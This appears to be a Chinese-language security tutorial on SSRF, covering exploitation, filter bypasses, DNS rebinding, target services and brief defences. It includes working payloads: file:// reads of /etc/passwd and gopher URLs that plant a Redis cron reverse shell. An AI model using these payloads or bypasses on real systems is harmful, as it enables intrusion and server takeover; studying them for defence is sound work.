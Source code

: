 SSRF
========================================

简介
----------------------------------------
服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞以服务器的身份发送一条构造好的请求给服务器所在内网。SSRF攻击通常针对外部网络无法直接访问的内部系统。

漏洞危害
----------------------------------------
+ SSRF可以对外网、服务器所在内网、本地进行端口扫描，攻击运行在内网或本地的应用，或者利用File协议读取本地文件。
+ 大部分情况都是GET型SSRF漏洞，仅能探测存活，扫描端口，内网域名探测等，危害十分有限。

利用方式
----------------------------------------
	|ssrf1|
	
SSRF利用存在多种形式以及不同的场景，针对不同场景可以使用不同的绕过方式。

以curl为例, 可以使用dict protocol操作Redis、file协议读文件、gopher协议反弹Shell等功能，常见的Payload如下：

:: 

	# 利用file协议查看文件
	curl -v 'file:///etc/passwd'

	# 利用dict探测端口
	curl -v 'dict://127.0.0.1:22'
	curl -v 'dict://127.0.0.1:6379/info'

	# 利用gopher协议反弹shell
	curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/127.0.0.1/2333 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'

	# 利用file协议任意文件读取
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=file:///etc/passwd'

	# 利用dict协议查看端口
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=dict://127.0.0.1:22'

	# 利用gopher协议反弹shell
	curl -v 'http://sec.com:8082/sec/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F127.0.0.1%2F2333%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'

相关危险函数
----------------------------------------
SSRF涉及到的危险函数主要是网络访问，支持伪协议的网络读取。以PHP为例，涉及到的函数有 ``file_get_contents()`` / ``fsockopen()`` / ``curl_exec()`` 等。

过滤绕过
----------------------------------------

更改IP地址写法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一些开发者会通过对传过来的URL参数进行正则匹配的方式来过滤掉内网IP，如采用如下正则表达式：

- ``^10(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){3}$``
- ``^172\.([1][6-9]|[2]\d|3[01])(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``
- ``^192\.168(\.([2][0-4]\d|[2][5][0-5]|[01]?\d?\d)){2}$``

对于这种过滤我们采用改编IP的写法的方式进行绕过，例如192.168.0.1这个IP地址可以被改写成：

- 8进制格式：0300.0250.0.1
- 16进制格式：0xC0.0xA8.0.1
- 10进制整数格式：3232235521
- 16进制整数格式：0xC0A80001

还有一种特殊的省略模式，例如10.0.0.1这个IP可以写成10.1。

访问改写后的IP地址时，Apache会报400 Bad Request，但Nginx、MySQL等其他服务仍能正常工作。

另外，0.0.0.0这个IP可以直接访问到本地，也通常被正则过滤遗漏。

使用解析到内网的域名
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务端没有先解析IP再过滤内网地址，我们就可以使用localhost等解析到内网的域名。

另外 ``xip.io`` 提供了一个方便的服务，这个网站的子域名会解析到对应的IP，例如192.168.0.1.xip.io，解析到192.168.0.1。

利用解析URL所出现的问题
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
在某些情况下，后端程序可能会对访问的URL进行解析，对解析出来的host地址进行过滤。这时候可能会出现对URL参数解析不当，导致可以绕过过滤。

比如 ``http://www.baidu.com@192.168.0.1/`` 当后端程序通过不正确的正则表达式（比如将http之后到com为止的字符内容，也就是www.baidu.com，认为是访问请求的host地址时）对上述URL的内容进行解析的时候，很有可能会认为访问URL的host为www.baidu.com，而实际上这个URL所请求的内容都是192.168.0.1上的内容。

利用跳转
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果后端服务器在接收到参数后，正确的解析了URL的host，并且进行了过滤，我们这个时候可以使用跳转的方式来进行绕过。

可以使用如 http://httpbin.org/redirect-to?url=http://192.168.0.1 等服务跳转，但是由于URL中包含了192.168.0.1这种内网IP地址，可能会被正则表达式过滤掉，可以通过短地址的方式来绕过。

常用的跳转有302跳转和307跳转，区别在于307跳转会转发POST请求中的数据等，但是302跳转不会。

通过各种非HTTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
如果服务器端程序对访问URL所采用的协议进行验证的话，可以通过非HTTP协议来进行利用。

比如通过gopher，可以在一个url参数中构造POST或者GET请求，从而达到攻击内网应用的目的。例如可以使用gopher协议对与内网的Redis服务进行攻击，可以使用如下的URL：

::

    gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1* * * * bash -i >& /dev/tcp/172.19.23.228/23330>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a

除了gopher协议，File协议也是SSRF中常用的协议，该协议主要用于访问本地计算机中的文件，我们可以通过类似 ``file:///path/to/file`` 这种格式来访问计算机本地文件。使用file协议可以避免服务端程序对于所访问的IP进行的过滤。例如我们可以通过 ``file:///d:/1.txt`` 来访问D盘中1.txt的内容。

DNS Rebinding
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一个常用的防护思路是：对于用户请求的URL参数，首先服务器端会对其进行DNS解析，然后对于DNS服务器返回的IP地址进行判断，如果在黑名单中，就禁止该次请求。

但是在整个过程中，第一次去请求DNS服务进行域名解析到第二次服务端去请求URL之间存在一个时间差，利用这个时间差，可以进行DNS重绑定攻击。

要完成DNS重绑定攻击，我们需要一个域名，并且将这个域名的解析指定到我们自己的DNS Server，在我们的可控的DNS Server上编写解析服务，设置TTL时间为0。这样就可以进行攻击了，完整的攻击流程为：

- 服务器端获得URL参数，进行第一次DNS解析，获得了一个非内网的IP
- 对于获得的IP进行判断，发现为非黑名单IP，则通过验证
- 服务器端对于URL进行访问，由于DNS服务器设置的TTL为0，所以再次进行DNS解析，这一次DNS服务器返回的是内网地址。
- 由于已经绕过验证，所以服务器端返回访问内网资源的结果。

利用IPv6
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
有些服务没有考虑IPv6的情况，但是内网又支持IPv6，则可以使用IPv6的本地IP如 ``[::]`` ``0000::1`` 或IPv6的内网域名来绕过过滤。


利用IDN
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
一些网络访问工具如Curl等是支持国际化域名（Internationalized Domain Name，IDN）的，国际化域名又称特殊字符域名，是指部分或完全使用特殊的文字或字母组成的互联网域名。

在这些字符中，部分字符会在访问时做一个等价转换，例如 ``ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ`` 和 ``example.com`` 等同。利用这种方式，可以用 ``① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩`` 等字符绕过内网限制。

可能的利用点
----------------------------------------
- Apache Hadoop远程命令执行
- axis2-admin部署Server命令执行
- Confluence SSRF
- counchdb WEB API远程命令执行
- dict
- docker API远程命令执行
- Elasticsearch引擎Groovy脚本命令执行
- ftp / ftps（FTP爆破）
- glassfish任意文件读取和war文件部署间接命令执行
- gopher
- HFS远程命令执行
- http、https
- imap/imaps/pop3/pop3s/smtp/smtps（爆破邮件用户名密码） 
- Java调试接口命令执行
- JBOSS远程Invoker war命令执行
- Jenkins Scripts接口命令执行
- ldap
- mongodb
- php_fpm/fastcgi 命令执行
- rtsp - smb/smbs（连接SMB）
- sftp
- ShellShock命令执行
- Struts2 命令执行
- telnet
- tftp（UDP协议扩展）
- tomcat命令执行
- WebDav PUT上传任意文件
- WebSphere Admin可部署war间接命令执行
- zentoPMS远程命令执行

防御方式
----------------------------------------
- 过滤返回的信息
- 统一错误信息
- 限制请求的端口
- 禁止不常用的协议
- 对DNS Rebinding，考虑使用DNS缓存或者Host白名单

挖掘技巧
----------------------------------------
- 前端传入后端HTML内容
	+ payload: ``<iframe src="http://ssrf.jd.local/">``
	+ payload: ``<meta http-equiv="refresh" content="0;url=http://ssrf.jd.local/"/>``
- 图片检索功能
	+ url参数
- 关键参数
	+ ``share,wap,url,link,src,source,target,u,display,sourceURl,imageURL,domain``


.. |ssrf1| image:: ../images/ssrf1.jpg
